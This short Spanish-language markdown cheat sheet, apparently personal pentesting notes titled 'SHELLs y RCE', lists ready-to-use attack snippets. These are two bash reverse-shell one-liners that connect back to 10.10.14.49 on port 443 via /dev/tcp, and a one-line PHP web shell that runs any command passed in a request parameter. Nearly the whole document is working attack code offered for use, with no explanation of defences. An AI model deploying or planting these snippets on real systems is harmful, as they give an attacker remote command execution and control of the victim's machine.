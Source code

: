 # SHELLs y y RCE
Aqui iremos describiendo las diferentes maneras de crear SHELLs a medida que nos las encontremos.

## LINUX

Diferentes manereas de crear shells en linux.

La manera mas directa de crear una reverse shell en linus es:
<pre>
bash -i >& /dev/tcp/10.10.14.49/443 0>&1
</pre>

Aunque a veces es mejor indicarselo como parámetro:

<pre>
bash -c "bash -i >& /dev/tcp/10.10.14.49/443 0>&1"
</pre>

## PHP

Ejecución de comandos

<pre>
<?php system($_REQUEST["cmd"]); ?>
</pre>
